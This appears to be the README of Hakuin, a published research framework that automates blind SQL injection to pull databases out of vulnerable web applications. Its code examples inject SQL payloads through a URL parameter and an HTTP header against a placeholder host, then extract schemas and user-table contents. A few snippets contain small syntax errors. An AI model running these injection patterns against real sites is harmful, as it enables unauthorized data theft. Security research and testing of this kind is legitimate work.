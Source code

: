 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for textual DB content.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Extractor, Requester

class StatusRequester(Requester):
    ...

ext = Extractor(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Extracting MySQL DBs
```python
from hakuin.dbms import MySQL
...
ext = Extractor(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start extracting DB schemas.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = ext.extract_schema(strategy='model')
```

```

##### Example 2 - Extracting only Table/Column Names
```python
tables = ext.extract_table_names(strategy='model')
columns = ext.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = ext.extract_column_text(table='users', column='address', strategy='dynamic'):
```

##### Example 2 - Extracting Integer Columns
```python
res = ext.extract_column_int(table='users', column='id'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
